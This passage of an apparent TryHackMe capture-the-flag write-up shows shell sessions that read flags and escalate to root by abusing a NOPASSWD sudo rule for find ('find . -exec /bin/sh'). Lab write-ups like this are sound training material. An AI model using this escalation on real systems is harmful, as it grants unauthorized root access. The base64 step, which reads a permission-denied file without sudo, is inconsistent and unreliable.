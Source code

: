 ### first flag

```bash
[missy@ip-10-10-111-57 ~]$ cat Documents/flag1.txt
THM-42828719920544
```

### privesc - sudo

```bash
[missy@ip-10-10-111-57 ~]$ sudo -l
Matching Defaults entries for missy on ip-10-10-111-57:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-111-57:
    (ALL) NOPASSWD: /usr/bin/find
```

Let's assume that the name of second flag is `flag2.txt`:

```bash
[missy@ip-10-10-234-161 ~]$ sudo find /home -type f -name "flag2.txt"
/home/rootflag/flag2.txt

```

We then use same "base64" technique to get `flag2.txt`:

```bash
[missy@ip-10-10-4-33 ~]$ sudo /usr/bin/find / -type f -name "flag2.txt" 2>/dev/null
/home/rootflag/flag2.txt
[missy@ip-10-10-4-33 ~]$ ls -l  /home/rootflag/flag2.txt
ls: cannot access /home/rootflag/flag2.txt: Permission denied
[missy@ip-10-10-4-33 ~]$ LFILE="/home/rootflag/flag2.txt"
[missy@ip-10-10-4-33 ~]$ base64 "$LFILE" | base64 --decode
THM-168824782390238
[missy@ip-10-10-4-33 ~]$
```

Or to get a root shell:

```bash
[missy@ip-10-10-234-161 ~]$ sudo find . -exec /bin/sh \; -quit
sh-4.2#
sh-4.2#
sh-4.2#
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2#
```




